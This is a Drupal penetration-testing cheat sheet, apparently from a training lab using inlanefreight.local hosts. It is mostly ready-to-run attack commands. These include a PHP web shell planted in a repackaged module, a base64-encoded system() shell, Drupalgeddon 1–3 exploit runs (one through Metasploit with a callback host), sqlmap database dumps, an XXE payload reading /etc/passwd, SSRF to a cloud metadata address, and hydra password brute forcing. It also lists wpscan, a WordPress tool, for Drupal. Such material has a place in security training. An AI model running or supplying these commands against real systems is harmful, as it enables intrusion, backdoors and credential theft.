 ## 1. PHP Filter Module Exploitation (Drupal < 8)

```sh
curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id
```

- Enable PHP filter module, inject code via content.
- **Consideration:** Client communication before enabling modules.

## 2. Backdoored Module Upload

```sh
wget --no-check-certificate https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' > captcha/shell.php
echo '<IfModule mod_rewrite.c>RewriteEngine On;RewriteBase /</IfModule>' > captcha/.htaccess
tar cvf captcha.tar.gz captcha/captcha/
curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

- Upload malicious module via admin panel.
- **Consideration:** Avoid modifying production systems without explicit permission.

## 3. Drupalgeddon (CVE-2014-3704)

```sh
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

- Create admin user via SQL injection.
- **Consideration:** Impact of creating unauthorized admin accounts.

## 4. Drupalgeddon2 (CVE-2018-7600)

```sh
python3 drupalgeddon2.py
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php
curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

- RCE via user registration form.
- **Consideration:** Severity of unauthenticated RCE vulnerabilities.

## 5. Drupalgeddon3 (CVE-2018-7602)

```sh
msf6 > use exploit/multi/http/drupal_drupageddon3
msf6 > set rhosts 10.129.42.195
msf6 > set VHOST drupal-acc.inlanefreight.local
msf6 > set drupal_session SESS...
msf6 > set DRUPAL_NODE 1
msf6 > set LHOST 10.10.14.15
msf6 > exploit
```

- RCE via Form API (requires authenticated session).
- **Consideration:** Session hijacking risks.

## 6. Drupal Configuration File Exploitation/Security

```sh
curl -s http://drupal.inlanefreight.local/sites/default/settings.php
ls -l sites/default/settings.php
cat .htaccess
```

- Check for exposed settings.php, extract database credentials.
- **Consideration:** Secure configuration file permissions and access.

## 7. Database Exploitation (SQL Injection - Expanded)

```sh
curl "http://drupal.inlanefreight.local/node/1?id=1'--"
curl "http://drupal.inlanefreight.local/node/1?id=1' OR '1'='1"
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" --dbs --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" -D [database_name] --tables --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" -D [database_name] -T [table_name] --columns --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" -D [database_name] -T [table_name] -C [column1,column2] --dump --batch
sqlmap -u "http://drupal.inlanefreight.local/node/1?id=1" --level 5 --risk 3
```

- Manual and automated SQL injection testing.
- **Consideration:** Validate findings with alternative tools.

## 8. Form API Exploitation

```sh
curl -X POST -d "param1=value1&param2=payload" http://drupal.inlanefreight.local/form_path
```

- **Consideration:** Burp Suite is very helpful for deeper analysis.

## 9. File Upload Vulnerabilities

```sh
curl -F "file=@malicious.php" http://drupal.inlanefreight.local/upload_path
```

- Test various file extensions.
- **Consideration:** Look for MIME type enforcement.

## 10. Access Control Vulnerabilities

```sh
curl -I http://drupal.inlanefreight.local/admin
```

- Check for 200 response when not authenticated.
- **Consideration:** Test different user roles.

## 11. Session Management Vulnerabilities

- Use Burp Suite's Sequencer and Session handling rules.

## 12. XML External Entity (XXE) Injection

```sh
curl -X POST -H "Content-Type: application/xml" -d '<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><foo>&xxe;</foo>' http://drupal.inlanefreight.local/xml_endpoint
```

## 13. Server-Side Request Forgery (SSRF)

```sh
curl "http://drupal.inlanefreight.local/page?url=http://169.254.169.254/latest/meta-data/"
```

- **Consideration:** Check response for internal metadata leaks.

## 14. Drupal Brute Forcing

```sh
wpscan --url http://drupal.inlanefreight.local/ --enumerate u --passwords /usr/share/wordlists/rockyou.txt
hydra -l admin -P /usr/share/wordlists/rockyou.txt drupal.inlanefreight.local http-post-form "/user/login:name=^USER^&pass=^PASS^&form_id=user_login:Invalid username or password"
```

- **Consideration:** Use specific tools for Drupal authentication mechanisms.

## Additional Notes:

- **Ensure Drupal versions are known before testing specific exploits.**
- **Use enumeration tools like droopescan for discovering modules and themes.**
- **Test patches and mitigations post-exploitation to ensure security fixes.**